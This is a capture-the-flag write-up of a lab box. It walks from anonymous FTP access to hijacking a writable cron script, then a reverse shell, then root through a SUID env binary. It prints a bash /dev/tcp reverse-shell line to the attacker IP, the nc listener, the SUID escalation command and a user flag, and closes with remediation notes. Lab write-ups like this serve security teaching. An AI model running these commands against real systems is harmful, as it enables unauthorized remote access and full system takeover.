# HTB/CTF Write-up — "NamelessOne" (Anonymous FTP → Cron Hijack → SUID `env`)

**Target IP:** `10.48.143.85`
**Attacker IP (tun0):** `192.168.140.215`
**Difficulty:** Easy
**Skills demonstrated:** service enumeration, anonymous FTP abuse, cron job hijacking, reverse shell handling, Linux privilege escalation (SUID binary abuse)

> This write-up documents the full path I took to get a foothold and root on this box, screenshot by screenshot, along with the reasoning behind each tool and step. Screenshots referenced below should be placed in a `screenshots/` folder alongside this README (named `1.png` … `16.png` to match).

---

## 🧰 Tools Used & Why

| Tool | Purpose | Why I used it |
|---|---|---|
| **Nmap** | Port/service/version scanning | First step of any engagement — identify attack surface and running service versions before touching anything else |
| **ftp** (CLI client) | Interact with the FTP service | Port 21 was open; needed to test for anonymous login and browse the file structure |
| **wget** | Non-interactive file download over FTP | Faster than manually `get`-ing files inside an interactive FTP session, and lets me script/automate pulling files down |
| **smbclient** | Enumerate and interact with SMB shares | Ports 139/445 were open (Samba) — had to check for open/null-session shares |
| **netcat (nc)** | Set up a listener to catch a reverse shell | Standard, lightweight way to receive an incoming shell connection once the payload fires |
| **LinPEAS** | Automated Linux privilege escalation enumeration | Rather than manually hunting every misconfiguration by hand, LinPEAS quickly flags SUID binaries, cron jobs, writable files, kernel exploits, etc. so I don't miss anything |
| **GTFOBins methodology** | Mapping SUID binaries to known privesc techniques | Once LinPEAS/manual `find` turned up SUID binaries, GTFOBins tells you exactly how to abuse each one to escalate privileges |

**Methodology followed:** Recon → Service Enumeration → Foothold (initial access) → Post-exploitation enumeration → Privilege Escalation → Flags. This mirrors a standard pentest methodology (PTES-style) rather than jumping straight to exploitation — enumerate everything reachable first, since the vulnerability here was hiding in a **file left behind on an anonymous FTP share**, not in a flashy CVE.

---

## 1. Reconnaissance — Nmap Scan



```
nmap -sV 10.48.143.85
```

Results:
- **21/tcp** — `vsftpd 2.0.8 or later`
- **22/tcp** — `OpenSSH 7.6p1 Ubuntu`
- **139/445/tcp** — `Samba smbd 3.X - 4.X` (workgroup: WORKGROUP)

**Why this matters:** an open FTP port is always worth testing for anonymous access, and open SMB ports mean there could be shares exposed without authentication. Both turned out to be true here.

---

## 2. FTP Enumeration



First attempt: I tried logging in with a blank/default username and it failed — the banner ("NamelessOne's FTP Server!") confirmed the service was reachable, but a plain login without specifying `anonymous` didn't work.



Logging in explicitly with the username `anonymous` (blank/any password) succeeded:

```
Name (10.48.143.85:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
```

Listing the root FTP directory showed a `scripts` folder.



Inside `scripts`, I checked `removed_files.log` — at this point in the enumeration it just showed a cron-style cleanup script running repeatedly and reporting **"nothing to delete"** each cycle. This told me two important things:
1. There's a script running on a **schedule** (cron) that's touching files in `/tmp`.
2. It's writing its own log file — meaning it likely runs with enough privilege to read/write in `/var/ftp/scripts/`.



Full directory listing of `scripts/`:
- `clean.sh` — the cleanup script itself, **world-writable-looking permissions** (`-rwxr-xrwx`)
- `removed_files.log` — its log output
- `to_do.txt` — a note left by the box's "admin"

Reading `to_do.txt`:
```
I really need to disable the anonymous login... it's really not safe
```

This is the key hint — the admin *knew* anonymous FTP was dangerous but hadn't fixed it yet. Combined with `clean.sh` being writable by anyone (including the anonymous FTP user), this is the vulnerability: **anonymous, unauthenticated write access to a script that gets executed periodically by cron.**

---

## 3. Grabbing a Local Copy of `clean.sh`



```
wget --ftp-user=anonymous --ftp-password=PASSWORD ftp://10.48.143.85/scripts/clean.sh
```

I pulled the script down locally with `wget` (rather than `get` inside the interactive FTP session) so I could read and edit it comfortably offline before pushing a modified version back.

---

## 4. SMB Enumeration (Parallel Check)



```
smbclient -L //10.48.143.85/ -N
```

Found three shares: `print$` (printer drivers), `pics` (a custom "Pics" share), and `IPC$`. The `-N` flag (no password) worked, confirming **null session / anonymous SMB access** as well.



```
smbclient //10.48.143.85/pics -N
```

Inside `pics`, only two harmless image files (`corgo2.jpg`, `puppos.jpeg`) — a dead end for exploitation, but worth documenting as part of full enumeration (and it confirms the box's theme/personality, nothing more).

---

## 5. Weaponizing `clean.sh`



Viewing the script (`less clean.sh`) on the FTP server showed the logic:

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        bash -c 'exec bash -i &>/dev/tcp/192.168.140.215/9999 <&1'
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log
    done
fi
```

**The bug:** `tmp_files=0` is a *string* comparison inside `[ $tmp_files=0 ]` with no spaces around `=`, so the condition is always evaluated as true regardless of the value of `tmp_files`. That means **every single time this script runs, it takes the `if` branch** — which spawns a reverse shell back to whatever IP is hardcoded in the `/dev/tcp/...` line.

Since the FTP `scripts/` directory was **anonymously writable**, I:
1. Edited my local copy of `clean.sh` (downloaded in step 3) so the hardcoded IP/port pointed at **my own attacking machine** (`192.168.140.215:9999`).
2. Uploaded (`put`) the modified script back to `ftp://10.48.143.85/scripts/clean.sh`, overwriting the original.
3. Waited for the cron job on the box to execute `clean.sh` again on its normal schedule.

This is a classic **cron job hijack via writable script** — I didn't need any credentials or a CVE, just abuse of an anonymous-write misconfiguration on a file a privileged/scheduled process trusts.

---

## 6. Catching the Reverse Shell



```
nc -lvnp 9999
```

When the cron job fired, the modified `clean.sh` executed and connected back:

```
connect to [192.168.140.215] from (UNKNOWN) [10.48.143.85] 55652
namelessone@anonymous:~$
```

Foothold achieved as the user **`namelessone`**.

---

## 7. Grabbing the User Flag



```
cat user.txt
90d6f992585815ff991e68748c414740
```

---

## 8. Post-Exploitation Enumeration



```
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Notable: membership in `sudo` and **`lxd`** groups — both are common Linux privesc vectors (LXD group membership can often be abused to mount the host filesystem via a privileged container). I didn't need to go down the `lxd` route here because a simpler SUID misconfiguration was available (see below), but it's worth flagging as an alternate path.



I transferred **LinPEAS** to the target (via the FTP share / `wget`) and ran it to automate the privilege-escalation search rather than manually checking every possible vector by hand. LinPEAS checks SUID/SGID binaries, sudo rules, cron jobs, capabilities, kernel version exploits, writable files in root-owned paths, etc., all in one pass and highlights (in red/orange) any binaries with known CVEs or GTFOBins entries — as seen here for `sudo`, `at`, and `pkexec`.



Cross-referencing the SUID binaries found against known GTFOBins/CVE techniques:

| Binary | Known technique |
|---|---|
| `/usr/bin/sudo` | Check sudo version for known CVEs |
| `/usr/bin/pkexec` | CVE-2021-4034 (PwnKit) |
| `/usr/bin/at` | GTFOBins scheduling abuse |
| `/usr/bin/env` | **GTFOBins — spawns a shell retaining SUID privileges** |
| `chsh`, `chfn`, `newgrp`, `newuidmap`, `newgidmap`, `gpasswd` | Standard Ubuntu SUID utilities — normally safe |



A manual `find / -perm -4000 -type f 2>/dev/null` confirmed the same set of SUID binaries on the actual target.

**The finding:** `/usr/bin/env` had the **SUID bit set** — this is *not* standard/default behavior for `env` on Ubuntu, and it's a textbook GTFOBins privilege-escalation vector, since `env` can be used to execute another binary (like `bash`) while inheriting the SUID permission.

---

## 9. Privilege Escalation — Abusing SUID `env`



```
/usr/bin/env /bin/bash -p
```

The `-p` flag tells bash to preserve privileges (not drop the effective UID), and because `env` itself carries the SUID bit, the spawned `bash` shell runs with **root privileges**. The directory listing afterward confirms a `root`-owned file/flag is now readable, giving me full root access.

---

## 🗺️ Full Attack Chain Summary

```
Nmap scan (21/22/139/445 open)
        │
        ▼
Anonymous FTP login allowed
        │
        ▼
Found /scripts/clean.sh (world-writable) + to_do.txt hint
        │
        ▼
Read clean.sh → buggy [ $tmp_files=0 ] always true → reverse shell branch
        │
        ▼
Edited clean.sh locally, re-uploaded via anonymous FTP write
        │
        ▼
Set up nc listener, waited for cron to trigger the script
        │
        ▼
Reverse shell as namelessone → user.txt
        │
        ▼
Enumeration (id, LinPEAS, manual SUID hunt) → SUID env misconfigured
        │
        ▼
/usr/bin/env /bin/bash -p → root shell → root flag
```

---

## 🔒 Remediation Notes (for the write-up's "lessons" section)

- **Disable anonymous FTP login entirely**, or at minimum make the FTP root **read-only** for anonymous users. Anonymous *write* access to a directory a cron job trusts is the root cause of the entire compromise.
- **Fix the shell logic bug** — `[ $tmp_files=0 ]` should be `[ "$tmp_files" = "0" ]` (quoted, spaced) to actually behave as intended, and the script shouldn't contain a hardcoded reverse-shell fallback in the first place.
- **Audit SUID bits regularly** — `env` should never carry the SUID bit on a standard system. A periodic `find / -perm -4000` audit (which is exactly what LinPEAS automates) would have caught this immediately.
- Restrict `lxd` and `sudo` group membership to accounts that genuinely need it.

